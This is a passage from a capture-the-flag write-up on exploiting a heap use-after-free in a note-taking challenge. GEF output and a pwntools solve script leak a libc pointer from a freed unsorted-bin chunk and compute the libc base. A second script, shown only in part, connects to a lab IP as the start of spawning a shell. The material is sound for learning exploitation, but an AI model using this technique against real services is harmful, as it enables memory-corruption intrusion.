 Also, when our memory is placed in the **unsorted bins**, it holds a pointer from the `libc` that we can use to calculate where `libc` is loaded:

```console
gef➤  x/gx 0x55e16b7c42a0
0x55e16b7c42a0: 0x00007f1b41e19ce0
gef➤  vmmap libc.so.6
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007f1b41c00000 0x00007f1b41c28000 0x0000000000000000 r-- ./libc.so.6
...
gef➤  p/x 0x00007f1b41e19ce0-0x00007f1b41c00000
$1 = 0x219ce0
```

To leak this address from the now-freed memory, we can simply use the `show` function as follows:

```python
...
# Create two large chunks and free the first on
create(0x1000, b"A")
create(0x1000, b"A")
delete(0)

# Leak the address and calculate the libc base address
show(0)
libc_base = u64(r.recvline().rstrip().ljust(8, b"\x00")) - 0x219ce0
print(hex(libc_base))

r.interactive()
```
{: file="solve.py" }

As we can see, with this approach, we are successfully able to leak the address and calculate the base address of `libc`.

![Tryanote Four](tryanote_four.webp){: width="800" height="400" }

### Spawning a Shell

Now that we have the address of `libc`, we can proceed with our plan to use the `win` function to spawn a shell, as follows:

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
libc = ELF("./libc.so.6", checksec=False)

r = remote("10.10.62.203", 5001)

def create(size, content):
    r.sendlineafter(b'\n>>', b'1')
    r.sendlineafter(b'Enter entry size:\n', str(size).encode())
    r.sendlineafter(b'Enter entry data:\n', content)

def show(index):
    r.sendlineafter(b'\n>>', b'2')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def update(index, content):
    r.sendlineafter(b'\n>>', b'3')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())
    r.sendlineafter(b'Enter data:\n', content)

```